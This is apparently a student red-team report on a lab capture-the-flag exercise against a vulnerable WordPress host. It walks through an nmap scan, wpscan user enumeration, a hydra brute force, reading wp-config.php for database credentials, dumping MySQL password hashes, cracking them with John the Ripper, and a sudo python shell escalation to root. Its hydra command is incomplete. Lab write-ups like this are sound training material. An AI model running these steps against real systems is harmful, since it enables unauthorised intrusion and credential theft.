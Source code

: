 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sv 192.168.1.0/24
```
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/nmap.PNG)

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - Port 22 ssh
  - Port 80 http
  - Port 111 rpcbind
  - Port 139 netbios-ssn
  - Port 445 netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Weak User Password (High Severity)
  - User Enumeration (Medium Severity)
  - User Privilege Escalation (High Severity)

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
- Target 1
  - `flag1`: b9bbcb33e11b80be759c4e844862482d
    - Users were enumerated with wpscan, Brute Force attack against weak password, then I exploited open port 22
      - wpscan was used to enumerate the users on Target 1
      - Command: `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/wpscan.PNG)
   - User michael was targeted
   - Used hydra to brute force `$ hydra -l michael -p /usr/share/wordlists/dirb/big.txt`
   - Capturing the first flag:
      - `ssh michael@192.168.1.110`
      - `cd /var/www/html`
      - `grep -ir flag1`

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag1.PNG)
      
  - `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c
    - The same process was used, but I used these commands:
      - `cd /var/www`
      - `ls` found flag2.txt

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag2.PNG)

  - `flag3`: afc01ab56b50591e7dccf93122770cd2 and `flag4`: 715dea6c055b9fe3337544932f2941ce
    - To find MySql database login information, this command was used: `cat /var/www/html/wordpress/wp-config.php`

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/mysql%20pword.PNG)
 
   - MySql was were flag3 and flag4 were found using these commands:
      - `mysql -u root -p'R@venSecurity'`
      - `SHOW DATABASES;`
      - `USE wordpress;`
      - `SHOW tables;`
      - `SELECT * FROM wp_posts;`
      
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag3%20and%204.PNG)

  -Additionally, hashes for each user was found, and privelege escalation was exploited.
  
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/mysql%20hashes.PNG)

   - I created a file with the hashes and used John the Ripper to crack them
      - `john hashes.txt -wordlist=/usr/share/wordlists/dirb/big.txt`
   - From there, I connected to Steven's account and open a python shell with root privilege
      - `ssh steven@192.168.1.110`
      - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
      
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/last%20photo.PNG)
